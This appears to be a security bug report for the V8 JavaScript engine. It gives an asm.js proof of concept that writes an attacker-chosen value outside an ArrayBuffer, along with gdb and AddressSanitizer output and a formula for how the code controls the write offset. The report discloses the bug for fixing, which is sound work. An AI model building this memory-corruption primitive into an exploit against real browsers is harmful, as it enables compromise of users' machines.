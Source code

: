 <b>VULNERABILITY DETAILS</b>
A vulnerable javascript code can write any value to outside of an array buffer.

<b>VERSION</b>
v8 4.8.271.20 (which is used by chrome now)

<b>REPRODUCTION CASE</b>
-------- javascript code ---------------------
boom=(function(stdlib,foreign,heap){
    "use asm";
    var Uint8ArrayView=new stdlib.Uint8Array(heap);
    var Int32ArrayView=new stdlib.Int32Array(heap);
    function f(i,i1){
        i1=Uint8ArrayView[256];
        // This following value '10' determines the value of 'rax'
        Int32ArrayView[i1>>10] = 0xabcdefaa;                                                                                                       
        return(-i1+((Int32ArrayView[((i1))>>2])))}
return f
})(this,0, new ArrayBuffer(256));
  for (var i = 0; i < 400; ++i) {
    boom(0, 0x1000);
  }
-------------------------------------------

Run this code with d8 in Ubuntu 14.04 64bit, then d8 crashes.

$ gdb -q --args ../../../v8_norm/out/x64.release/d8 ./crash.js
Reading symbols from ../../../v8_norm/out/x64.release/d8...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/tunz/working/v8/v8_norm/out/x64.release/d8 ./crash.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff6bca700 (LWP 17370)]
[New Thread 0x7ffff63c9700 (LWP 17371)]
[New Thread 0x7ffff5bc8700 (LWP 17372)]
[New Thread 0x7ffff53c7700 (LWP 17373)]

Program received signal SIGSEGV, Segmentation fault.
0x0000397584b3f85d in ?? ()
(gdb) bt
#0  0x0000397584b3f85d in ?? ()
#1  0x000008a0fa0198f1 in ?? ()
#2  0x000008a0fa0198b1 in ?? ()
#3  0x00007fffffffe190 in ?? ()
#4  0x0000397584b3d412 in ?? ()
#5  0x0000100000000000 in ?? ()
#6  0x0000000000000000 in ?? ()
(gdb) x/i $pc
=> 0x397584b3f85d:	mov    DWORD PTR [rbx+rax*1],0xabcdefaa
(gdb) i r rax
rax            0xff800000	4286578688
(gdb) i r rbx
rbx            0x16fb0d0	24096976
(gdb) 

The program tried to write a given value (0xabcdefaa) to an out of buffer.

The 'rax' is value is calculated by this formula (uint32_t)(0x100000000 - (0x200000000 >> x)), 'x' is mentioned in the javascript code. Thus, this vulnerability can write down any value, but target address is limited.

Address sanitizer catches another error:
ASAN:SIGSEGV
=================================================================
==19761==ERROR: AddressSanitizer: SEGV on unknown address 0x61508000da00 (pc 0x7fffcc33fea8 bp 0x7fffffffbc98 sp 0x7fffffffbc80 T0)
    #0 0x7fffcc33fea7 (<unknown module>)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV ??:0 ??
==19761==ABORTING